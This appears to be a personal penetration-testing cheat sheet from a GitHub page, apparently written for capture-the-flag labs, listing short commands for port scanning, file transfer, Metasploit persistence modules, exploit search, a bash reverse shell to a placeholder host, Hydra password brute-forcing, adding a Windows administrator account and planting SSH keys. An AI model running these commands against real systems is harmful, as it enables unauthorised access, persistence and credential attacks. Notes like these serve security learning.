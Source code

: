 Tips and Tricks

# Nmap scan
nmap -T4 -p- _IP_
nmap -flags <ports_found> _IP_

rustscan (Not recommended for org)

# File Transfer

For windows
certutil.exe -urlcache -f _link_

For linux
python -m SimpleHTTPServer _port_

FTP:
python -m pyftpdlib 21 (attacker machine)

Linux:
curl,wget

# Maintaining Access

> **scripts**
> * run persistence -h
> * run persistence -X (automatically starts when the system boots)
> * explooit/windows/local/persistence
> * exploit/windows/local/registry_persistence
 
 
> **Scheduled Tasks** (cronjob)
> * run scheduleme
> * run schtaskabuse

> **Add a user**

# Searching exploits

`searchsploit <name>` - gives the findings and this is updated via ghdb.
-|-|-|-|-|-|-|-|-|-|-|-|-|--|-|-|-|-|-|-|-|-|
Tip: If you found any `.rb` file then there is 99% chances that exploit is available in metasploit.

# Execute Code Overflow
If you dont have access to write of create file then try storing it in temp variable.


# List all the avaiable shells

`cat /etc/shells`

# Crontab
`crontab -l` this will list the cron jobs for the current user
`cat /etc/crontab` this will list all the cronjobs available in system

# Netcat reverse shell

`bash -i >& /dev/tcp/[IP]/[PORT] 0>&1`

# Hydra 
**Basic Auth**
`hydra -l bob -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt -s 80 -f 10.10.156.184 http-get /protected`

[Tips hydra](https://github.com/gnebbia/hydra_notes)

# Nikto
scan with basic auth credentials
`nikto -h ip -id bob:password`

# LFI to steal ssh pvt key

for this always use burp to get the private key 

# Hydra 
**Login page**
`hydra `

# Windows add user
For adding user in windows and then user to admin group use this:
`net user x3rz 123 /add`
`net localgroup Administrators x3rz /add` this will add the x3rz to admin group

# RDP to windows machine
`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.182.72 /u:Administrator /p:'TryH4ckM3!'`

# SSH keys
`ssh-keygen -f user`
then paste the public key to the authprized_keys section of the target system and then you can login from private key of that user by `ssh -i user user@ip`

# Port forwarding from ssh 
`ssh -L 9001:127.0.0.1:9001 -i user user@ip`

so this will connect my 9001 port to the vitim 

#  Dirsearch
use -   `.old, .bak, .xxx` during searches

